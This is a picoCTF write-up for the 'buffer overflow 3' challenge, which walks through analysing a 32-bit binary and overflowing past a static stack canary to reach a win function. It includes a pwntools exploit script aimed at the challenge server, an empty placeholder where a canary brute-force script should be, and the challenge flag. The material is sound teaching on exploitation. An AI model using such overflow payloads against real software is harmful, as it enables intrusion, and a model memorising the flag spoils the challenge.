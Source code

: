 # buffer overflow 3
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Do you think you can bypass the protection and get the flag?
It looks like Dr. Oswal added a stack canary to this [program](https://github.com/jon-brandy/CTF-WRITE-UP/blob/d6703447a725fc59dc635aa42beeaee467577564/Asset/buffer%20overflow%203/vuln) to protect against buffer overflows. You can view source [here](https://github.com/jon-brandy/CTF-WRITE-UP/blob/d6703447a725fc59dc635aa42beeaee467577564/Asset/buffer%20overflow%203/vuln.c). 
And connect with it using: `nc saturn.picoctf.net 64367`
## HINT:
1. Maybe there's a smart way to brute-force the canary?
## STEPS:
1. First, download both files given.
2. Next, check the `program` file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/205282085-16cadf79-8bcb-4864-a717-071610270ae6.png)


3. The file is 32 bit, dynamically linked and **not stripped**. Not stripped means we can see the functions names when decompiled it.
4. Now check the file's protection.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/205282165-23a2f61b-e3bd-4a76-ae90-63970070b521.png)


5. **No canary found** means we can do buffer overflow here and **no PIE** means the program won't produce a dynamically linked position independent executeable.
6. Let's make the program executeable by run `chmod +x vuln`.
7. Now run the program.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/205285240-7aea9ded-010d-4fa9-8ff0-4ede34a2f537.png)


8. Seems we need to make `canary.txt` first.
9. Let's make it and enter the word "flag" into the file and run the program again.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/205285674-ebcdc8a7-c0af-4484-bd7f-9fd28145ccb2.png)


10. Hmm.. Let's decompile the file with ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/205285883-91545670-ca12-410f-82f8-67e685e28721.png)


11. Jump to the `vuln()` function.

![image](https://user-images.githubusercontent.com/70703371/205285997-4cf78ad6-b874-40d1-b5b7-fbfefb10d6d7.png)


12. Try to input the bytes value as `64` and the input as 64 characters of A.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/205286531-0dc7a5e9-da42-47fc-b93b-fc5ca0f965b1.png)


13. Let's input 68 as the value bytes now and the input as 68 characters of A.

> RESULT


![image](https://user-images.githubusercontent.com/70703371/205286782-55bced89-dc16-4049-91f9-f728e15a2755.png)


14. Notice here, we need to overflow any other variables we have on the saved ebp or rbp before we can get to the `win` function.

> ALL VARIABLES WE NEED TO OVERFLOWED

![image](https://user-images.githubusercontent.com/70703371/205287604-f07aea16-dfcd-4499-82ef-26e02fc31c3a.png)


> THE EBP/RBP

![image](https://user-images.githubusercontent.com/70703371/205287685-9372ef70-ddb4-43bf-8dae-b92beb13a10c.png)


15. Now open the file in gdb and set the breakpoint at the **memcp** offset.

![image](https://user-images.githubusercontent.com/70703371/205288798-f5493083-6ae9-4a29-98d0-669ac72ae22b.png)


> GDB

![image](https://user-images.githubusercontent.com/70703371/205288956-7522ae33-904b-48b0-ab32-5df5d7324329.png)


![image](https://user-images.githubusercontent.com/70703371/205289016-8d2b76c8-c978-4782-b14e-e363619adaa2.png)


![image](https://user-images.githubusercontent.com/70703371/205289058-2f85b287-8647-48b0-91cb-a4837bd8156a.png)


16. The program compared our last 4 characters to the `test` (which is our canary).

![image](https://user-images.githubusercontent.com/70703371/205289424-9a025a3d-932b-4c01-a424-c0dbb3f57efa.png)


17. Based from it we can conclude the right padding is 64 bytes.
18. At this stage, we know we need to add 64 bytes for the padding plus 4 bytes for the canary, also another 16 bytes (include the saved RBP) in total to overwrite other variables.

![image](https://user-images.githubusercontent.com/70703371/205296017-c866e35d-d872-4f20-ada2-94510be44d48.png)


19. But the `flag` is our own local canary, the problem is we don't know the remote server's canary.
20. So far our script look like this:

> TEMPORARY SCRIPT

```py
from pwn import *
import os

os.system('clear')

sh = remote('saturn.picoctf.net', 54124)

p = b'A' * 64
p += b'flag'
p += b'A' * 16 # 4 + 4 + 4 + saved RBP (4)
p += p32(134517558)
context.log_level = 'debug'
sh.recvuntil(b'>')
sh.sendline(b'144') # 64 + 64 + 4 + 4 + 4 + 4
sh.recvuntil(b'>')
sh.sendline(p)
sh.interactive()
```

21. To bruteforce the remote's canary, i made this python script:

> CANARY BRUTE SCRIPT

```py
```



![image](https://user-images.githubusercontent.com/70703371/205313705-c206027f-591e-4d16-9390-abca365ecbbb.png)


## FLAG

```
picoCTF{Stat1C_c4n4r13s_4R3_b4D_35bc40e2}
```

